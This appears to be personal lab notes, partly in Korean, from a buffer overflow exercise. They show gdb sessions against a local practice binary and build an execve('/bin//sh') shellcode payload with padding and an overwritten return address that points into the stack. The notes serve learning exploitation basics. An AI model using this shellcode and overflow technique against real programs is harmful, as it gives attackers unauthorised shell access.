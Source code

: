 4 8

```
(gdb) info reg
eax            0xffffd054	-12204
ecx            0xffffd330	-11472
edx            0xffffd079	-12167
ebx            0x56556fd4	1448439764
esp            0xffffd04c	0xffffd04c
ebp            0xffffd078	0xffffd078
esi            0xf7fb7000	-134516736
edi            0x0	0
eip            0x5655558c	0x5655558c <vuln+63>
eflags         0x202	[ IF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99



(gdb) b*0x56555598
Breakpoint 3 at 0x56555598
(gdb) c
Continuing.

Breakpoint 3, 0x56555598 in vuln ()

(gdb) x/wx $esp
0xffffd07c:	0x6b6b6b6b
```

test 끝

"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "\x90”*13 + “\xfc\xd4\xff\xff”


0xffffd054

54 d0 ff ff 

```
r `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"+"A"*17+"\x54\xd0\xff\xff"'`
```

```
(gdb) r `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"+"A"*17+"\x54\xd0\xff\xff"'`
Starting program: /home/ubuntu/asm/example1 `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"+"A"*17+"\x54\xd0\xff\xff"'`

Breakpoint 1, 0x5655554d in vuln ()
(gdb) x/2wx $esp
0xffffd07c:	0x565555c4	0xffffd30f
(gdb) x/s 0xffffd30f
0xffffd30f:	"1\300Ph//shh/bin\211\343\061\311\061Ұ\v̀", 'A' <repeats 17 times>, "T\320\377\377"
(gdb) c
Continuing.

Breakpoint 2, 0x56555587 in vuln ()
(gdb) ni
0x5655558c in vuln ()
(gdb) x/20wx 0xffffd054
0xffffd054:	0x6850c031	0x68732f2f	0x69622f68	0x31e3896e
```